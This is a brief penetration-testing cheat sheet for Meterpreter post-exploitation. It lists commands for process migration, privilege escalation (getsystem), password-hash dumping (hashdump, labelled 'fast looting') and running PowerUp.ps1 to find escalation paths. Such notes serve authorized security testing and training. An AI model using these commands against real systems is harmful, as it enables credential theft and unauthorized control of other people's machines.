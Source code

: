 # Meterpreter

## Common Commands

```
meterpreter > getuid

// Inspect running process and migrate to a more stable process
meterpreter > ps
meterpreter > migrate <pid>

// Fast looting
meterpreter > getsystem
meterpreter > hashdump
```

{% hint style="info" %}
* Always migrate to a process that matches the architecture (see \`Arch\` field) of the system.
* Can only migrate to a process running as equal or lower privileged user.
{% endhint %}

**Upload and run \`PowerUp.ps1\` with \`Meterpreter\`**

```
meterpreter > upload /home/username/PowerUp.ps1

meterpreter > load powershell
Loading extension powershell...Success.

meterpreter > powershell_shell
PS > . .\PowerUp.ps1                                
PS > Invoke-AllChecks

Ctrl+Z to background this when finished
```

****
